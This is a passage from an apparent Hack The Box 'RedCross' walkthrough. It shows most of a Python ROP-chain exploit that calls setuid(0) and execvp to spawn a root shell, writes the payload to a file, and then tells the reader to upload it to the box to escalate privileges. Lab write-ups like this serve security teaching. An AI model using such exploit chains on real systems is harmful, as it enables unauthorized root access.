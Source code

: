 ```python
	payload += p64(strcpy)
	payload += p64(ret)

# setuid(0) - 32 bytes
payload += p64(pop_rdi_ret)
payload += p64(0)
payload += p64(setuid)
payload += p64(ret)

# execv("sh", 0) - 56 bytes
payload += p64(pop_rsi_pop_ret)
payload += p64(0)
payload += p64(skip)
payload += p64(pop_rdi_ret)
payload += p64(writeme)
payload += p64(execvp)
payload += p64(ret)

payload += newline

# write payload to file
f = open('payload', 'wb')
f.write(payload)
f.close
```

Use the exploit code to generate our payload and then upload it to the box. Run the following command to escalate privilege to `root`.

<a class="image-popup">
![03394494.png](/assets/images/posts/redcross-htb-walkthrough/03394494.png)
</a>

[1]: https://www.hackthebox.eu/home/machines/profile/162
[2]: https://www.hackthebox.eu/home/users/profile/9631
[3]: https://www.hackthebox.eu/
